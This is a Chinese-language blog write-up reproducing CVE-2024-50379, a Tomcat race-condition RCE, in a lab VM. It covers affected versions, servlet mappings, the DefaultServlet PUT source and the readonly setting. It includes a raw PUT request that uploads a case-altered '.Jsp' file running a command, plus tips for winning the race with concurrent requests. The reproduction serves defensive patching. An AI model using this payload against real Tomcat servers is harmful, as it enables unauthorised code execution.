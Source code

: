# Apache-Tomcat条件竞争致远程代码执行漏洞(CVE-2024-50379)

最近爆出 Apache Tomcat条件竞争导致的RCE，影响范围当然是巨大的，公司也及时收到了相关情报，于是老大让我复现，以更好的帮助公司进行修复漏洞。

复现难度其实并不大，但是成功率很低，我在复现过程中也尝试了很多tomcat、java版本，操作一样但结果不同，相信很多师傅也在复现，希望能够成功，所以我对“成功率”进行了一点点研究，希望能够提高师傅们复现成功的概率。

# 环境搭建

经过多次的尝试，建议大家使用java8不要用太高的java版本 否则难以复现成功（关注后台回复20241219可以获取跟我一样的漏洞复现环境和POC）这里使用的环境如下：

```
jre1.8.0_202
apache-tomcat-9.0.63
```

**windows虚拟机**

配置环境变量

这里一定要配置JAVA_HOME否则会报错

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKwbtOHmiaPDKJ7eBqlib8K3T4kV4ngB3bmjyImXcm9uCywW6JPFb1YkIg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

需要将这个版本的java的环境变量置顶，防止其他版本的干扰，大家应该都明白

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKMyVgDPvbllNOWSM4ia5DPhiaZAol9Ij2Xicp8gjtKZ3H750QwFgZAjsYA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

配置CATALINA_BASE

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKuuOPfDXmcKibH8WEk2ye3oIPJZ4s9ktfhCveHZlDLofXtOdnnTtaiaicg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

这下环境变量就已经配置齐了 这个时候就已经可以正常启动tomcat了 运行这个批处理文件

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKelM6Oj4hHRhfQQWbdJniblaALicEXo45Eypfd2InVicUC74oQ0zSQ2wQQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

启动成功（乱码无所谓的 web.xml改一下GBK即可）

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKicdSomeAYTRQbjgGgDtgDwFtnhgT8ZPDAsRrlaCT2vmnVSdanf1dyxA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

# 漏洞分析

影响版本

11.0.0-M1 <= Apache Tomcat < 11.0.2

10.1.0-M1 <= Apache Tomcat < 10.1.34

9.0.0.M1 <= Apache Tomcat < 9.0.98

漏洞原理

首先来看看著名的**CVE-2017-12615**，我们查看tomocat的配置 (conf/web.xml)

```
    <!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

当请求的后缀为jsp或jspx的时候交由JSP servlet进行处理请求，此外交给default servlet进行处理请求。而我们查看**CVE-2017-12615**的payload可知，它对文件后缀采取了一些绕过，例如PUT一个1.jsp/、1.jsp空格、1.jsp%00从而绕过JSP servlet的限制，让default servlet来处理请求。当default servlet处理PUT请求时如下图

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKwnGLXeYKnvjH4phc0icFTDuWTXcibbnK1vGA9kWTXywAZo4tdk0bThGg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

```java
 @Override
    protected void doPut(HttpServletRequest req, HttpServletResponse resp)
        throws ServletException, IOException {

        if (readOnly) {
            sendNotAllowed(req, resp);
            return;
        }

        String path = getRelativePath(req);

        WebResource resource = resources.getResource(path);

        Range range = parseContentRange(req, resp);

        if (range == null) {
            // Processing error. parseContentRange() set the error code
            return;
        }

        InputStream resourceInputStream = null;

        try {
            // Append data specified in ranges to existing content for this
            // resource - create a temp. file on the local filesystem to
            // perform this operation
            // Assume just one range is specified for now
            if (range == IGNORE) {
                resourceInputStream = req.getInputStream();
            } else {
                File contentFile = executePartialPut(req, range, path);
                resourceInputStream = new FileInputStream(contentFile);
            }

            if (resources.write(path, resourceInputStream, true)) {
                if (resource.exists()) {
                    resp.setStatus(HttpServletResponse.SC_NO_CONTENT);
                } else {
                    resp.setStatus(HttpServletResponse.SC_CREATED);
                }
            } else {
                resp.sendError(HttpServletResponse.SC_CONFLICT);
            }
        } finally {
            if (resourceInputStream != null) {
                try {
                    resourceInputStream.close();
                } catch (IOException ioe) {
                    // Ignore
                }
            }
        }
    }

```

会去检查配置文件中的readonly的值是否为false，如果是true的话就直接return也就是不允许put请求，所以我们需要在配置文件中进行如下设置 (conf/web.cml) 注意是default servlet，因为上面讲了我们最终处理put请求是default servlet

```
  <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>

        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

最终就可以进行put上传shell了，这个就是**CVE-2017-12615**。

那么再看看最近很火的CVE-2024-50379。原理是条件竞争，通过并发put文件上传非标准后缀的“jsp”，并不断发起get请求一个标准后最的“jsp”文件，最终由于服务器的大小写不敏感，导致请求成功造成RCE。

看看pyload是put一个xxx.Jsp（也可以PUT html........），为什么长这样呢？阅读了上文，固然就明白了。 当然是要绕过jsp servlet的后缀匹配规则了然后让default servlet去处理请求。

现在我们尝试PUT一下 数据包如下

```
PUT /test.Jsp HTTP/1.1
Host: 192.168.19.135:8080

<% Runtime.getRuntime().exec("calc.exe");%>
```

返回状态码是201代表上传成功 可以去webapps/ROOT目录看到

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQK89RiaA9fY9HLurD87GsbEIXQcC4WkwCKf0yngibtI3UW6EaFadaDVBKQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKz2ibHWunVTY5UribYnDyP1ktV93Lnib19NL92hAcLXbqHmXUMBN2dRNuQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKtFyj704mAepiaXNlXaIUMa6WFXCAdCXXkJicFA3iaMf37z0Nk8g4u6icfQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

再次重放请求的时候就是204的状态码了  说明文件已经存在

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKER5ibk1nbXGDBbuUaETqEMHIoUyAAHa89kxjK1wvnk99YX27NkBlwuw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKUectRxqu30IF4ibx2PMPO1ZjwTBOr4JRHt0qyATtcib9Iu1wLMV64mjA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKGqLjjVbQ0JVDX97lOqUpib2wKFaHahKwIVwUzPfiaiboJUFHuNY5kb08w/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

# 漏洞复现

接下来开始复现该漏洞 我用的是window虚拟机 而不是真机，因为我电脑内存太大，可能效果不会很明显，毕竟要用到条件竞争，所以如果想成功率高一点建议用虚拟机，把内核、内存大小设置小一点。

yakit-发送到webFuzzer 发三个  get的并发线程建议大于前面两个

第一个

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKpicHcFBvsibGIedZjUyX5CQhict0lu7KLTd5LS9UvHJ1Oqic9kt8YP8Mfw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

第二个

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKiadeWJfeiayaoicaxGOo3ibFgCKpTx78I8O1dA47gcRuw1qWGUQeBwPDyQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

第三个 

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQKnFDVibmE0Qib20qnyAWGv0qIPoLvyIMr2p69CsBibRk7z6pzVFxnWOIUw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

开弹

![图片](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vcj9ATiamooqKvV1HuIHibMQK2moaTEXOKtSBp53YicdhFJ8xxbZS21cSjVyKs3A5y0bkXQglicicfHCtw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

在我虚拟机卡的时候往往容易成功 有时候直接用yakit就能成功，有时候不行，所以我同时用yakit和脚步一起打 

## 漏洞来源
- https://mp.weixin.qq.com/s/d7dneaUgF2TD2KGdT1qiQw